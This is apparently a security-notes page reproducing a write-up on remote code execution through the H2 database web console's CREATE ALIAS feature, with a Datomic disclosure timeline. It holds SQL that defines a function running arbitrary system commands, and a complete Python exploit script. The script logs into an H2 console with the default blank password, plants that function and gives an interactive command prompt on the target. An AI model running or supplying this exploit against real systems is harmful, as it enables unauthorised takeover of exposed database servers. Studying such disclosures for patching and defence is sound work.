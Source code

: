 ```yaml
---
title: H2 databases 🥁
tags:
  - Database
---
```

> *Credits to [mthbernardes](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)*

## Abusing H2 Database ALIAS

### How to get a shell on a H2 Database, using ALIAS feature.

Today I was introduced to [H2 Database](http://www.h2database.com/), a in-memory and pure Java Database, because it’s a in-memory database, the developers use it most to learning, unit tests and poc’s, but you can learn more about it on H2 [site](https://mthbernardes.github.io/rce/2018/03/14/2018-03-14-abusing-h2-database-alias.markdown).

The H2 provides a web console, where you can manage your database, and here the things starts to be more interesting, by default it does not have an password set, so you can just log in, but what can we do inside it? The first thing I tried was the same trick that everyone knows on MySQL.

```sql
SELECT 'SOME CONTENT' INTO OUTFILE '/tmp/saida.txt'
```

And of course it didn’t work, so I decided to be more smart and google it, trying to discover if anybody already find some RCE on it, and the maximum I found was a report made by the H2 Group on [SecurityFocus](https://mthbernardes.github.io/rce/2018/03/14/'https://www.securityfocus.com/bid/58536'), but there wasn’t an available exploit or any technical detail.

So after it I did the most obvious thing, open the H2 site, go to the documentation, and tried to find any interesting function, the first thing I found was the [FILE_READ](http://www.h2database.com/html/functions.html?highlight=FILE_READ&search=FILE_#file_read) function, where I can read files from filesystem, Ok, cool, it’s a nice thing to do, but it’s not a shell, so digging on SQL commands section, I found the [CREATE ALIAS](http://www.h2database.com/html/grammar.html#create_alias), basically, you can create an function on H2 that calls a java code, as the example

```sql
CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
CALL GET_SYSTEM_PROPERTY('java.class.path');
```

or a more complex alias,

```sql
CREATE ALIAS REVERSE AS $$ String reverse(String s) { return new StringBuilder(s).reverse().toString(); } $$;
CALL REVERSE('Test');
```

Now it’s game over, if I can execute Java code, I can get a shell, as I’m not a Java expert, I searchon Google a easy way to execute system commands with java, found a link on [stackoverflow](https://stackoverflow.com/a/20624914), I just adapted it inside the ALIAS, and now there’s a function that execute arbitrary code,

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('id')
```

After that just find if the server have any tool to do a [reverse shell](https://github.com/mthbernardes/rsg), and you’ll gain a interactive shell.

![h2-console-rce](https://mthbernardes.github.io/assets/images/h2-console-rce.gif)

### Attack Scenario

One scenario is a distributed database called Datomic. The free version of Datomic uses an embedded H2 storage, and older versions of Datomic enabled the H2 console with the default blank H2 password. The free version is often used locally by developers for quick prototyping, thus unauthenticated local attackers can easily compromise their machines. The issue was disclosed to the Datomic team and was quickly [fixed](http://blog.datomic.com/2018/03/important-security-update.html).

### Datomic Timeline

2018-03-14 - Initial Vulnerability discovery

2018-03-20 - First contact with Datomic team

2018-03-29 - Fix released

2018-04-05 - Blog published.

### Exploit

```python
import sys
import argparse
import html
import requests

def getCookie(host):
    url = 'http://{}'.format(host)
    r = requests.get(url)
    path = r.text.split('href = ')[1].split(';')[0].replace("'","").replace('.jsp','.do')
    return '{}/{}'.format(url,path)

def login(url,user,passwd,database):
    data = {'language':'en','setting':'Generic+H2+(Embedded)','name':'Generic+H2+(Embedded)','driver':'org.h2.Driver','url':database,'user':user,'password':passwd}
    r = requests.post(url,data=data)
    if '<th class="login">Login</th>' in r.text:
        return False
    return True

def prepare(url):
    cmd = '''CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;'''
    url = url.replace('login','query')
    r = requests.post(url,data={'sql':cmd})
    if not 'Syntax error' in r.text:
        return url
    return False

def execve(url,cmd):
    r = requests.post(url,data={'sql':"CALL EXECVE('{}')".format(cmd)})
    try:
        print(html.unescape(r.text.split('</th></tr><tr><td>')[1].split('</td>')[0].replace('<br />','\n').replace('&nbsp;',' ')).encode('utf-8').decode('utf-8','ignore'))
    except Exception as e:
        print('Something goes wrong')
        print(e)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    required = parser.add_argument_group('required arguments')
    required.add_argument("-H",
            "--host",
            metavar='127.0.0.1:4336',
            help="Specify a host",
            required=True)
    required.add_argument("-d",
            "--database-url",
            metavar='jdbc:h2~/test',
            default="jdbc:h2~/test",
            help="Database URL",
            required=False)
    required.add_argument("-u",
            "--user",
            metavar='username',
            default="sa",
            help="Username to log on H2 Database, default sa",
            required=False)
    required.add_argument("-p",
            "--password",
            metavar='password',
            default="",
            help="Password to log on H2 Database, default None",
            required=False)
    args = parser.parse_args()

url = getCookie(args.host)
if login(url,args.user,args.password,args.database_url):
    url = prepare(url)
    if url:
        while 1:
            try:
                cmd = input('cmdline@ ')
                execve(url,cmd)
            except KeyboardInterrupt:
                print("\nProfessores ensinam, nadadores Nadam e Hackers Hackeiam")
                sys.exit(0)
    else:
        print('ERROR - Inserting Payload')
        print("Something goes wrong, exiting...")
else:
    print("ERROR - Auth")
    print("Something goes wrong, exiting...")
```

